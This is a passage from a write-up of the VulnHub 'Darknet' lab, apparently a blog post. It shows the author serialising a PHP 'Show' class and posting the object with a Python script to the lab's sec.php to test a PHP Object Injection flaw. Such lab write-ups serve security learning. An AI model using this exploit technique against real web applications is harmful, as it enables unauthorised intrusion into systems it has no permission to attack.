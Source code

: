 ```

}

?>
```

A textbook example of [PHP Object Injection](https://www.owasp.org/index.php/PHP_Object_Injection)! I continued to serialize an instance of of the `Show` class by copying the class into a new PHP file, instantiating the `Show` class and running the `serialize()` function over it, printing the output.

```
// Source code for poishow.php
<?php

class Show {

    public $woot;

    function __toString(){
        return "Showme";

}
    function Pwnme(){
        $this->woot="ROOT";

}

}

print_r(serialize(new Show()));
```

Running this with a PHP interpreter printed the serialized string.

```
root@kali:~/data/VulnHub/Darknet# php poishow.php
O:4:"Show":1:{s:4:"woot";N;}
```

I now had something I could use to try and test the vulnerability. For the `Show` class, we are going to leverage the `__toString()` method defined when `sec.php` calls `echo` on the variable containing the unserialized object. I write *yet another python helper* to send the serialized objects to the `sec.php` as a POST parameter. This was mostly because I was too lazy to deal with my shell and escaping the quotes etc. :)

```
import requests

OBJECT = """O:4:"Show":1:{s:4:"woot";N;}"""

print('[+] Exploiting the PHP Object Injection Bug')
r = requests.post('http://192.168.252.140/sec.php', data={'test': OBJECT})
print r.status_code
print r.text
```
